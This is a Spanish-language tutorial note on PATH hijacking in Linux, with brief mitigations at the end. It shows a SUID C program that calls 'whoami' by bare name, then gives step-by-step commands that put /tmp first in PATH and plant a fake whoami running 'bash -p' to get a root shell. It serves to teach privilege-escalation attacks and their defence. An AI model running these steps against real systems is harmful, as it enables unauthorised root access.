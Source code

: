 - --
### 📝 **¿Qué es el PATH Hijacking?**
El **PATH Hijacking** es una técnica de ataque en sistemas Unix/Linux en la que el atacante manipula la variable de entorno `PATH` para **secuestar comandos del sistema**. Esto permite que los comandos legítimos sean reemplazados por versiones maliciosas, logrando la ejecución de código bajo ciertos contextos de privilegios.

---

### 💡 **¿Cómo Funciona?**
El sistema operativo utiliza el valor de la variable `PATH` para encontrar ejecutables. Al manipular el valor de `PATH`, podemos **priorizar directorios controlados por el atacante** para que el sistema ejecute primero nuestros binarios maliciosos en lugar de los originales.

---

## 📝 **Ejemplo de PATH Hijacking**

#### 💻 **Código C en la Máquina Víctima (con SUID)**
Imagina que tenemos acceso a un binario con SUID como el siguiente:
```c
#include <stdio.h>

int main() {
    setuid(0);  // Eleva privilegios a root
    printf("\n[*] Actualmente somos el siguiente usuario:\n\n");
    system("/usr/bin/whoami");
    printf("\n[+] Actualmente somos el siguiente usuario:\n\n");
    system("whoami");
    return 0;
}
```
- Utiliza la función `system()` para llamar al comando `whoami`.
- Al estar en modo SUID, ejecuta el comando con privilegios elevados.

---

## 🦠 **Explotación por el Atacante**

### 🔥 **1. Verificar el PATH Actual**
Primero, verificamos el valor actual de la variable `PATH`:
```bash
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

### 🧠 **2. Manipular el PATH para Secuestrar el Comando**
Modificamos el `PATH` para priorizar un directorio controlado:
```bash
export PATH=/tmp/:$PATH
```
- Esto hace que cualquier comando se busque primero en `/tmp/`.

### 💻 **3. Crear el Binario Malicioso**
Creamos un archivo en `/tmp/` con el mismo nombre que el comando legítimo:
```bash
echo "bash -p" > /tmp/whoami
chmod +x /tmp/whoami
```
- El archivo ejecutará una shell privilegiada (`bash -p`).

---

## 🚀 **4. Ejecutar el Binario Vulnerable**
Ahora ejecutamos el binario vulnerable con SUID:
```bash
./vulnerable_binary
```
- En lugar de ejecutar el comando original `whoami`, se ejecutará el script malicioso que invoca una shell privilegiada.

---

## 🛡️ **Medidas de Mitigación**
1. **Validar el PATH en los scripts críticos.**  
2. **Usar rutas absolutas en lugar de comandos simples.**  
3. **Restringir el uso de scripts SUID.**  
4. **Monitorear y auditar cambios en las variables de entorno.**  

---

💡 **Guarda esta guía en Obsidian para tener siempre a mano las técnicas de PATH Hijacking!** 🛠️
